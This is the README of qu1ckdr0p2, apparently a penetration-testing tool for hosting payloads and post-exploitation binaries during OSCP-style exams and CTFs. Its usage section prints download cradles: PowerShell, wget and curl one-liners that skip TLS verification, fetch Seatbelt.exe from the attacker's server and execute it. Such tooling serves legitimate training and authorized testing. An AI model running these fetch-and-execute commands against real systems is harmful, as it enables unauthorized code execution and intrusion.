 <h1 align="center">
    <img src="img/quick_drop_small.png"></img>

![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
![Flask](https://img.shields.io/badge/flask-%23000.svg?style=for-the-badge&logo=flask&logoColor=white)
![Visual Studio Code](https://img.shields.io/badge/Visual%20Studio%20Code-0078d7.svg?style=for-the-badge&logo=visual-studio-code&logoColor=white)
![Prettier](https://img.shields.io/badge/prettier-1A2C34?style=for-the-badge&logo=prettier&logoColor=F7BA3E)
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg?style=for-the-badge)](https://opensource.org/licenses/MIT)


</h1>

## About
Rapidly host payloads and post-exploitation bins over HTTP or HTTPS. 

Designed to be used on exams like OSCP / PNPT or CTFs HTB / etc.

Pull requests and issues welcome. As are any contributions.

Qu1ckdr0p2 comes with an alias and search feature. The tools are located in the <a href ="https://github.com/byinarie/qu1ckdr0p2-tools">qu1ckdr0p2-tools</a> repository. By default it will generate a self-signed certificate to use when using the `--https` option, priority is also given to the `tun0` interface when the webserver is running, otherwise it will use `eth0`.

The <a href="https://github.com/byinarie/qu1ckdr0p2-tools/blob/main/config/common.ini">common.ini</a> defines the mapped aliases used within the `--search and -u` options.

When the webserver is running there are several download cradles printed to the screen to copy and paste.

## Install
#### Using pip is the only supported way of installing. Cloning this repository to install will probably break something
```zsh
pip3 install qu1ckdr0p2
serv init --update
```
#### Export as an alias if needed
```
echo "alias serv='~/.local/bin/serv'" >> ~/.zshrc
source ~/.zshrc
```

```
echo "alias serv='~/.local/bin/serv'" >> ~/.bashrc
source ~/.bashrc
```

## Usage
### Serv a single file located in your current working directory
```zsh
serv serve --help
serv serve -f implant.bin --https 443
serv serve -f file.example --http 8080
```

### Serv a file from a mapped alias
The mapped alias numbers for the `-u` option are dynamic so you don't have to remember specific numbers or ever type out a tool name.
```zsh
$ serv serve --search seatbelt
[→] Path: ~/.qu1ckdr0p2/windows/Seatbelt.exe
[→] Alias: seatbelt
[→] Use: 1

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_Any/Seatbelt.exe
[→] Alias: seatbelt_net40_any
[→] Use: 2

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_x64/Seatbelt.exe
[→] Alias: seatbelt_net40_x64
[→] Use: 3

[→] Path: ~/.qu1ckdr0p2/windows/NetFramework_4.0_x86/Seatbelt.exe
[→] Alias: seatbelt_net40_x86
[→] Use: 4

(...)

$ serv serve --search seatbelt -u 2
[→] Serving: ../../../.qu1ckdr0p2/windows/NetFramework_4.0_Any/Seatbelt.exe
[→] Protocol: https
[→] IP address: 192.168.1.5
[→] Port: 443
[→] Interface: eth0
[→] Using cert: /home/byinarie/.qu1ckdr0p2/certs/cert.pem
[→] Using key: /home/byinarie/.qu1ckdr0p2/certs/key.pem
[→] CTRL+C to quit

[→] URL: https://192.168.1.5:443/Seatbelt.exe

[↓] csharp_ignore_tls:
Add-Type -TypeDefinition "using System.Net;using System.Security.Cryptography.X509Certificates;public class SSLValidator {public static void Ignore() {ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;}}" -Language CSharp; [SSLValidator]::Ignore(); $webclient = New-Object System.Net.WebClient; $webclient.DownloadFile('https://192.168.1.5:443/Seatbelt.exe', 'c:\windows\temp\Seatbelt.exe');Start-Process 'c:\windows\temp\Seatbelt.exe'

[↓] wget_ignore_tls:
wget --no-check-certificate https://192.168.1.5:443/Seatbelt.exe -O /tmp/Seatbelt.exe && chmod +x /tmp/Seatbelt.exe && /tmp/Seatbelt.exe

[↓] curl_ignore_tls:
curl -k https://192.168.1.5:443/Seatbelt.exe -o /tmp/Seatbelt.exe && chmod +x /tmp/Seatbelt.exe && /tmp/Seatbelt.exe

[↓] powershell_ignore_tls:
$AllProtocols = [System.Net.SecurityProtocolType]'Ssl3,Tls,Tls11,Tls12'; [System.Net.ServicePointManager]::SecurityProtocol = $AllProtocols; $WebClient = New-Object System.Net.WebClient; $WebClient.DownloadFile('https://192.168.1.5:443/Seatbelt.exe', 'c:\windows\temp\Seatbelt.exe'); Start-Process 'c:\windows\temp\Seatbelt.exe'
```




## License

MIT

---

